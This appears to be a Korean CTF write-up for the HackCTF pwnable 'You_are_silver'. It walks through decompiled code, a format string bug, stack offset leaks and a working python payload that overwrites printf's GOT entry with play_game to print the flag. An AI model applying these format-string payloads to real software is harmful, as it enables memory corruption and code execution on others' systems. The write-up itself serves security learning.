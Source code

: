 #You\_are\_silver

---

우선 보호기법을 살펴보면 다음과 같다.

<pre>
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
</pre>


쉘코드는 소용이 없을 듯 하다.

`main()`의 코드를 확인해보자.

<pre>
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [rsp+0h] [rbp-30h]
  int v5; // [rsp+28h] [rbp-8h]
  unsigned int v6; // [rsp+2Ch] [rbp-4h]

  setvbuf(stdout, 0LL, 2, 0LL);
  v6 = 50;
  puts("Please enter your name");
  fgets(&s, 46, stdin);
  printf(&s);
  v5 = get_tier(v6);
  printf((const char *)v5);
  return 0;
}
</pre>

표준입력으로 s에 46bytes를 입력받는다. 그리고 이를 `printf()`로 출력한다. 이때 format string bug 취약점이 발생한다. 이후 v6에 저장되어있던 값으로 tier를 매겨서 등급을 제시해준다. 그 점수와 등급은 다음과 같다.

<pre>
__int64 __fastcall get_tier(int a1)
{
  __int64 result; // rax

  if ( a1 > 50 )
  {
    if ( a1 > 65 )
    {
      if ( a1 > 75 )
      {
        puts("\nYou are challenger.");
        result = 4LL;
      }
      else
      {
        puts("\nYou are master.");
        result = 3LL;
      }
    }
    else
    {
      puts("\nYou are platinum.");
      result = 2LL;
    }
  }
  else
  {
    puts("\nYou are silver.");
    result = 1LL;
  }
  return result;
}
</pre>

그리고 다음과 같은 함수가 있다.

<pre>
void __fastcall __noreturn play_game(int a1)
{
  if ( a1 != 2 )
  {
    if ( a1 > 2 )
    {
      if ( a1 == 3 )
      {
        puts("master can't play game. Sorry! :(");
        exit(0);
      }
      if ( a1 == 4 )
      {
        puts("Challenger. Take this first!");
        system("cat ./flag");
      }
    }
    else if ( a1 == 1 )
    {
      puts("SILVER can't play game.");
      exit(0);
    }
    puts("Who are you? get out!");
    exit(0);
  }
  puts("platinum can't play game. :(");
  exit(0);
}
</pre>

매개변수의 값에 따라서 등급을 나누어주며 등급이 Challenger인 경우에는 flag를 출력해준다. 그리고 이 매개변수의 값은 `get_tier()`에서 얻은 값과 동일하다.

따라서 다음과 같이 익스 시나리오를 짤 것이다. `main()`에서 일어나는 format string bug를 통해서 v6의 값을 100으로 바꾸는 동시에, `printf()`의 got를 `play_game()`의 주소로 바꿀 것이다. v6의 값을 바꾸기 위해서는 ASLR때문에 stack의 주소값을 leak하는 과정이 필요하지만, 46bytes를 입력받기 때문에 bufferoverflow에 의해서 v6는 덮어쓸 수 있다.



---

우선 다음을 보면 6번째 %lx부터 stack값을 참조한다는 것을 알 수 있다.
<pre>
sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/23.You_are_silver$ ./you_are_silver
Please enter your name
AAAAAAAA %lx %lx %lx %lx %lx %lx %lx %lx
AAAAAAAA 18d1039 7f3ada695790 a 18d1039 786c2520786c2520 4141414141414141 786c2520786c2520 786c2520786c2520

You are silver.
Segmentation fault (core dumped)
</pre>

이를 통해서 `printf()`의 got를 조작할 것이다. `printf()`의 got와 `play_game()`의 주소는 다음과 같다.

<pre>
gdb-peda$ got

/home/sjy0175/Desktop/HackCTF/Pwnable/23.You_are_silver/you_are_silver:     file format elf64-x86-64

DYNAMIC RELOCATION RECORDS
OFFSET           TYPE              VALUE 
...
0000000000601028 R_X86_64_JUMP_SLOT  printf@GLIBC_2.2.5

...

gdb-peda$ p play_game
$1 = {<text variable, no debug info>} 0x4006d7 <play_game>
</pre>

**printf_got=0x601028** <br>
**play\_game=0x4006d7**

play_game의 주소인 0x4006d7을 십진수로 바꾸면 
4196055가 된다. payload에서 앞에 `printf()`의 got주소 8bytes를 썼기 때문에 4196055-8=4196047이므로 payload의 앞부분은 다음과 같이 될 것이다.

**'\x28\x10\x60\x00\x00\x00\x00\x00'+'%4196047x'+'%6$ln'**

여기까지 payload의 길이는 21bytes이다. 때문에 뒷부분은 \x00으로 채워주고 마지막에 v6를 덮을 부분을 \x64\x00으로 채워주면 된다. \x64\x00은 100을 16진수로 바꾼 것이다. 따라서 최종적인 payload는 다음과 같다.

**'\x28\x10\x60\x00\x00\x00\x00\x00'+'%4196047x'+'%6$ln'+'\x00'\*22+'\x64\x00'**

이렇게 하면 분명히 되어야 하는데 계속 $가 입력이 되지 않는다. 

그래서 다음과 같이 입력해보았다.

**(python -c "print '\x28\x10\x60\x00\x00\x00\x00\x00'+'%16lx'\*4+'%4195983x'+'%ln'+'\x00'\*4+'\x64\x00'")**

$처럼 사라지지는 않아서 v6는 조작할 수 있었다. 하지만 %ln을 넣었음에도 불구하고 got overwrite가 되지 않는다. 이유를 알아보니 got주소에 적혀있던 null값에 의해서 printf의 출력이 끊겨서 원하는대로 작동이 되지않았던 것이었다. 따라서 payload를 다음과 같이 작성하면 된다.

**(python -c "print '%4196055x'+'%8$ln'+'AA'+'\x28\x10\x60\x00\x00\x00\x00\x00'+'\x00'\*20+'\x64\x00'")**

flag를 얻을 수 있었다.

<pre>
You are challenger.
Challenger. Take this first!
HackCTF{N0w_Y0u_4re_b4side_0f_F4K3R}
Who are you? get out!
[*] Got EOF while reading in interactive
</pre>

**flag: HackCTF{N0w\_Y0u\_4re\_b4side\_0f\_F4K3R}**
